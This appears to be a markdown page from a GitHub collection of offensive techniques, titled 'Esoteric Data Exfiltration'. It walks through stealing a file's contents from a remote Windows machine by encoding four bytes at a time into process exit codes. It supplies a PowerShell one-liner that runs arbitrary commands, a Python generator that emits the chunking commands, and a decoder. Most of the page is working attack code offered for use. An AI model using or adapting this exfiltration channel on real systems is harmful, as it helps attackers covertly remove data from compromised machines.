 # Esoteric Data Exfiltration

This is a dumping for less common but still quite interesting Exfiltration methods.  These probably won't be too useful in anything but the most specific instances, but who knows, they might fit what you're looking for.

## Error Codes

We can exfiltrate arbitrary data via literally nothing but error-codes.  Here I'll walk through the stages to set up and test this for exfiltrating some file.

An error code can have a maximum length of 32 bits, or 4 bytes.  We can therefore encode 4 arbitrary bytes within the return of a windows command.

We have data stored within`$env:temp/merror.txt`  and the only parameter we need to know is it's length.  We can run an arbitrary command, store it's output in the file and find out its length by running the following:

```powershell
$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
```

We now have to generate our commands to split up the file and return the data.  The following script will return an iterator that will yield commands to run on the remote machine, which will return error codes.

```py
def error_exfil(output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd
```

Decoding them on the other end is as simple as:

```py
def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')
```



